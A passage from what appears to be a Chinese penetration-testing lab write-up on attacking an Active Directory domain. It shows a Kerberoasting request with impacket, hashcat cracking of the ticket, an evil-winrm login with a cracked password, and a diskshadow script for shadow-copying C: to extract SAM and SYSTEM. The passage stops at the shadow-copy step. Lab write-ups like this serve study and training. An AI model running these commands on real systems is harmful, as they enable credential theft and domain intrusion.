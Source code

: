 [![](assets/1706233449-f3fef18a080a41058a68463789614c55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143924-50284be0-ba83-1.png)

发现`tianjing`用户，抓取一下 hash

```bash
proxychains impacket-GetUserSPNs xiaorang.lab/'XR-0923$' -hashes :b2caa4c3f6d5e97bf7c58f7db9e24317 -dc-ip 172.22.14.11 -request-user tianjing
```

[![](assets/1706233449-3dbdf9f025987b6bf233a7fceeaed934.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143931-546db622-ba83-1.png)

而后破解一下密码

```bash
hashcat -m 13100 -a 0 1.txt /usr/share/wordlists/rockyou.txt --force
```

得到

```bash
tianjing:DPQSXSXgh2
```

使用`evil-winrm`登录，进行简单信息搜集

[![](assets/1706233449-f94544d3b1bacb07e1f369ceb0805573.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143939-58f76328-ba83-1.png)

### 卷影拷贝

有备份以及还原文件和目录的权限，尝试导出 sam 和 system。

首先在本地创建一个 dsh 文件，这里命名为`raj.dsh`，内容如下

```bash
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

接下来再用 unix2dos 将 dsh 文件的编码间距转换为 Windows 兼容的编码和间距

```bash
unix2dos raj.dsh
```

[![](assets/1706233449-29c775d6214b8d5a3b4d755c3a035a75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143947-5dad3d48-ba83-1.png)

接下来上传到靶机，我们在`C:/`下随便创个目录，上传此文件

[![](assets/1706233449-efa67848e1194c0713492677a621eb41.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143952-61096692-ba83-1.png)

卷影拷贝

```bash
diskshadow /s raj.dsh
```
